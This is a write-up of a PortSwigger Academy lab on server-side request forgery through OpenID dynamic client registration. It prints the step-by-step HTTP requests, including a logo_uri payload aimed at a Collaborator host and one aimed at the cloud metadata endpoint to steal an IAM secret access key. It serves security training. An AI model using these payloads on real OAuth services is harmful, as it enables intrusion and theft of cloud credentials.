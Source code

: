 # SSRF via OpenID dynamic client registration

## Description

[This lab](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration) allows client applications to dynamically register themselves with the `OAuth` service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the `OAuth` service, which exposes a potential vector for SSRF. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter`. Browse to `https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.
2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:

```text
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

3. Send the request. Observe that you have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.
4. Using Burp, audit the OAuth flow and notice that the **Authorize** page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. From the Burp menu, open the Burp Collaborator client and click **Copy to clipboard** to copy a Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property and paste your Collaborator URL as its value. The final request should look something like this:

```text
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://YOUR-COLLABORATOR-ID.burpcollaborator.net"
}
```

7. Send the request to register a new client application and copy the `client_id` from the response.
8. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.
9. Go to the Burp Collaborator client dialog and check for any new interactions. Notice that there is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
10. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:

```text
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

11. Send this request and copy the new `client_id` from the response.
12. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.
13. Use the **Submit solution** button to submit the access key and solve the lab.

## Exploitability

An attacker will need to log in; and then craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the `OAuth` provider's cloud environment.

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._
